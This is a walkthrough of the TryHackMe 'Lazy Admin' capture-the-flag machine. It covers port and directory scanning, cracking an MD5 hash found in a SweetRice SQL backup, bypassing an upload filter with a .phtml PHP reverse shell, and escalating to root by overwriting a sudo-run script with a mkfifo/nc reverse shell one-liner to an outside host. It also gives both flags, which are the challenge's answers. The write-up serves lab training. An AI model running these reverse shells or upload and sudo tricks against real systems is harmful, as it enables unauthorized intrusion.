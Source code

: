 # TryHackMe - Lazy Admin

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.29.138
```

## 📌 Task 1: Lazy Admin

### 🔍 Nmap Scan

**Using all ports takes forver**

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)             
| ssh-hostkey:                                                                                
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)                                
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)                               
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)                             
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                           
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                  
|_http-title: Apache2 Ubuntu Default Page: It works                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### 🔍 Gobuster

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.29.138 -x .php,.txt,.html
```

**Results**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11321]
/.php                 (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.29.138/content/]

```
* Going to /content/ I find it's sweetrice! 
Let's update gobuster and look for stuff under /content/

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.29.138/content/ -x .php,.txt,.html

```
**Results**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 321] [--> http://10.10.29.138/content/images/]
/index.php            (Status: 200) [Size: 2198]
/license.txt          (Status: 200) [Size: 15410]
/js                   (Status: 301) [Size: 317] [--> http://10.10.29.138/content/js/]
/changelog.txt        (Status: 200) [Size: 18013]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.29.138/content/inc/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.29.138/content/as/]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.29.138/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.29.138/content/attachment/]
```

A quick look at changelog.txt reveals it's running version 1.5.0
Google shows some exploits but they all seem tricky. I am not sure I need cross side scripting and I do not want to use metasploit!

/inc/ is interesting. There is a SQL backup file!

Downloded that in firefox. In there is the user name and a hash

```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

So the user name is manager
Let's run hashcat on the hash

```bash
hashcat 42f749ade7f9e195bf475f37a44cafcb
```

**Results**
```
     # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

It looks like it's MD5
Let's use John the Ripper to crack it

```bash
echo "42f749ade7f9e195bf475f37a44cafcb" hash
john hash -format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```
Yikes that was quick!

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)     
1g 0:00:00:00 DONE (2025-06-24 00:31) 100.0g/s 3360Kp/s 3360Kc/s 3360KC/s coco21..181193
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Let's login using http://10.10.29.138/content/as/
user: manager
password: Password123

**We're logged in as www-root**

Have a look around and I found a way to upload a file
Lets get the reverse shell from pentestmonkey and update for my IP and port. https://pentestmonkey.net/tools/web-shells/php-reverse-shell

I tried to upload the php file but it was not allowed
However, phtml worked just fine.
File uploaded!
Let's open a listener on my box
```bash
nc -nlvp 8888
```

Now open the file I just uploaded in the web browser
** bingo, I have my reverse shell!! **

Let's get the user flag!

```bash
cat /home/itguy/user.txt
```

**Q. What is the user flag
A. THM{63e5bce9271952aad1113b6f1ac28a07}

### Now the root flag!

```bash
sudo -l
```

**results**

```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

***what is backup.pl?
```bash
cat /home/itguy/backup.pl
```
**Results for backup.pl**
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
*I don't heve permissions to edit this file. Maybe I'll have better luck with copy.sh

**Results for copy.sh**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

This one I can edit but I do not have a real shell and can't open nano. I tries to stabalize the shell several times but it never worked. Just hung. **something I need to play with**
Maybe I can just echo a new file over the existing

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.57.243 5554 > /tmp/f" > /etc/copy.sh
```

Yes that worked. Almost there!

Setup a listener on port 5554 on my host and then execute the perl command

```bash 
sudo perl /home/itguy/backup.pl
```

Bingo. I got a reverse shell and now root! Let's cat that root flag


**Q. What is the root flag
A. THM{6637f41d0177b6f37cb20d775124699f}



 
